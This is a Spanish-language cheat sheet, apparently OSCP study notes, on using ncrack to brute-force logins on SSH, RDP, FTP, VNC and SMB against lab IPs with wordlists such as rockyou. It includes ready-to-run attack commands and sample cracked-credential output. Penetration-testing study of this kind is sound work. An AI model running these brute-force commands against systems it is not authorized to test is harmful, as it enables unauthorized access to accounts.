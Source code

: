 `ncrack` es una herramienta de fuerza bruta desarrollada por los creadores de Nmap, optimizada para realizar ataques de autenticación a alta velocidad sobre múltiples protocolos. Es útil en OSCP para validar credenciales contra SSH, RDP, FTP, HTTP, VNC, SMB y más.

---

## Instalación

```bash
sudo apt install ncrack
```

---

## Uso Básico

```bash
ncrack -p <puerto> -U users.txt -P pass.txt <IP>
```

### Ejemplo:
```bash
ncrack -p 22 -U users.txt -P rockyou.txt 10.11.1.10
```

---

## Módulos Soportados

- SSH (`-p 22`)
- RDP (`-p 3389`)
- FTP (`-p 21`)
- HTTP (básico y digest, solo si es autenticación estándar)
- VNC (`-p 5900`)
- SMB (`-p 445`) *limitado*

---

## Ataque Contra un Servicio Específico

### RDP
```bash
ncrack -p rdp -U users.txt -P pass.txt 10.11.1.20
```

### SSH
```bash
ncrack -p ssh -U users.txt -P pass.txt 10.11.1.30
```

### FTP
```bash
ncrack -p ftp -U users.txt -P pass.txt 10.11.1.40
```

---

## Resultados

Los logins válidos se mostrarán en la salida estándar:
```
Discovered credentials on 10.11.1.10 22/tcp: admin / password123
```

Usa `-oN` para guardar:
```bash
ncrack -p ssh -U users.txt -P pass.txt 10.11.1.10 -oN resultados.txt
```

---

## Casos de Uso OSCP

- Verificar accesos sobre servicios detectados en reconocimiento
- Alternativa a `hydra` y `medusa` si hay problemas con ciertos protocolos
- Muy eficaz contra RDP y SSH por su velocidad y tolerancia a errores

---

## Buenas Prácticas

- Filtrar usuarios previamente para reducir intentos
- No abusar de servicios sensibles (usa `-gcl` para limitar conexiones simultáneas)
- Usar `-f` para detener tras el primer éxito

---
